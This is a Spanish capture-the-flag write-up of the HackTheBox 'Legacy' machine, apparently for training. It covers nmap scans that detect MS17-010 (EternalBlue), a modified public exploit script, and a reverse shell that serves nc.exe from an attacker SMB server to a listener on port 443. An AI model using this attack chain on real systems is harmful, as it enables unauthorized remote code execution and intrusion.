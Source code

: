 ----
- Tags: #nmap-scripts #EternalBlue #netexec #smbserver
----
# Resolución

----
> En esta máquina a través de un reconocimiento con *scripts específicos* de **nmap** detectamos la vulnerabilidad **Eternal Blue** y se abusa de esta aprovechando un script de **Github** que permite ejecutar comandos. Para ingresar utilizamos un **nc.exe** que disponemos en nuestra máquina de atacante que entabla una **Reverse Shell** cuando la máquina víctima lo ejecuta a través de un servidor **SMB** de nuestra propiedad.
----
## Reconocimiento

### OS

**WINDOWS**
```shell
ping -c 1 10.10.10.4
PING 10.10.10.4 (10.10.10.4) 56(84) bytes of data.
64 bytes from 10.10.10.4: icmp_seq=1 ttl=127 time=267 ms

--- 10.10.10.4 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 266.896/266.896/266.896/0.000 ms
```

### NMAP

**Puertos**
```ruby
# Nmap 7.94SVN scan initiated Thu Dec  5 16:42:04 2024 as: nmap -p- --open --min-rate 5000 -vvv -n -Pn -oN allPorts 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up, received user-set (0.27s latency).
Scanned at 2024-12-05 16:42:04 -03 for 17s
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE      REASON
135/tcp open  msrpc        syn-ack ttl 127
139/tcp open  netbios-ssn  syn-ack ttl 127
445/tcp open  microsoft-ds syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
# Nmap done at Thu Dec  5 16:42:21 2024 -- 1 IP address (1 host up) scanned in 16.44 seconds
```

**Servicios**
```ruby
# Nmap 7.94SVN scan initiated Thu Dec  5 16:45:38 2024 as: nmap -sCV -p135,139,445 -oN services 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up (0.27s latency).

PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2024-12-10T23:43:25+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:1a:ce (VMware)
|_clock-skew: mean: 5d00h57m38s, deviation: 1h24m50s, median: 4d23h57m38s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec  5 16:45:57 2024 -- 1 IP address (1 host up) scanned in 19.07 seconds
```

#### **Script de NMAP personalizado** **``.lua``**

Como nos interesa que el servicio que corre por el *puerto 445* es un **``smb``**, utilizaremos ``nmap`` para realizar un escaneo especifico para ese puerto en concreto.

Filtramos para ver todas las **categorías** de los scripts de nmap de la siguiente forma.

- ``locate .nse | xargs grep "categories" | grep -oP '".*?"' | sort | uniq``

Luego en mi caso es de interés fusionar la categoría *``safe``* y la categoría *``vuln``* ya que de esta forma actúan como *checkers* al juntarlas.

- **``nmap --script "vuln and safe" -p445 10.10.10.4 -vvv -oN smbScan``**

**``smbScan``**
```ruby
# Nmap 7.94SVN scan initiated Tue Dec 10 18:44:08 2024 as: nmap --script "vuln and safe" -p445 -vvv -oN smbScan 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up, received reset ttl 127 (0.26s latency).
Scanned at 2024-12-10 18:44:09 -03 for 16s

PORT    STATE SERVICE      REASON
445/tcp open  microsoft-ds syn-ack ttl 127

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Read data files from: /usr/bin/../share/nmap
# Nmap done at Tue Dec 10 18:44:25 2024 -- 1 IP address (1 host up) scanned in 17.48 seconds
```

## Explotación

### Vulnerabilidad MS17-010

Una vez realizado toda la etapa de reconocimiento, comenzamos con la explotación.
Previamente vimos a través de los scripts de ``nmap`` que la máquina *Legacy* es vulnerable a **Eternal Blue**, por lo tanto vamos a recurrir a Github para buscar un repositorio que contenga un exploit para el *``CVE-2017-0143``*, en mi caso encontré el siguiente [repositorio](https://github.com/worawit/MS17-010) en el cual se explota dicha vulnerabilidad.

Dentro de el repositorio se encuentra también un **``checker.py``** que realiza un escaneo para detectar si la víctima es vulnerable o no y a que **PIPES** lo es.

![[L 1.png]]

Basta con que aparezca un "*Ok*" en cualquiera de los **``Named Pipes``** del *``checker.py``* para que podamos explotarlo.

En mi caso utilizaremos el script **``zzz_exploit.py``** que al ejecutarlo nos pedirá la ip de la víctima y el nombre de la **named pipe** vulnerable que previamente vimos.
Antes de hacer lo anterior primero tenemos que **modificar** el script, ya que este por defecto crear un archivo ``.txt`` en la unidad lógica *``C:\\``* de la máquina víctima, pero nosotros queremos generar un **RCE**.

Primero filtramos con ``nvim`` por la cadena ``cmd``, luego comentamos lo siguiente.

![[L 2.png]]

Ahora descomentamos y modificamos la siguiente cadena que es de nuestro interés.

![[L 3.png]]

De esta forma con este método vamos a enviar un *``ping``* a nuestra máquina de atacante una vez ejecutemos el script mientras nosotros estaremos en escucha con *``tcpdump``* a la espera de **trazas ICMP** en la interfaz **``tun0``**, en el caso de que nosotros recibiéramos **cuatro paquetes** de la máquina víctima, quiere decir que **tenemos RCE**.

- ``tcpdump -i tun0 icmp -n``
- **``python2.7 zzz_exploit.py 10.10.10.4 browser``**

![[L 4.png]]

Recibimos correctamente las trazas **ICMP** de la máquina víctima, por lo tanto tenemos RCE, ahora simplemente realizamos una **Reverse Shell**.

----
### Reverse Shell

Para entablar la Reverse Shell lo que haremos será traernos una copia del **``nc.exe``** ubicado en nuestro ``Seclists`` ---> **``locate nc.exe``**

Abrimos un **servidor** **``smb``** ofreciendo el ``nc.exe`` que está en nuestro directorio actual de trabajo.

- **``impacket-smbserver smbFolder $(pwd) -smb2support``**

Nos ponemos en escuchar por el **puerto 443**

- **``rlwrap nc -nlvp 443``**

Modificamos el Script para que la máquina víctima consulte a nuestro servidor ``smb`` y ejecute el **``nc.exe``** para que luego **apunte** la conexión a nuestra máquina de atacante al listener de ``nc`` que tenemos por el *puerto 443*.

![[L 5.png]]

Por último ejecutamos el script para recibir la conexión y ganar acceso a la máquina.

- **``python2.7 zzz_exploit.py 10.10.10.4 browser``**

![[L 6.png]]

## Escalada de Privilegios

Una vez dentro de la máquina Legacy reclamamos la **flag** del **usuario** y luego fácilmente reclamamos la **flag** de **root** ya que tenemos acceso a sus directorios porque en la mayoría de casos al explotar la vulnerabilidad **Eternal Blue** ganamos acceso **como usuario privilegiado**.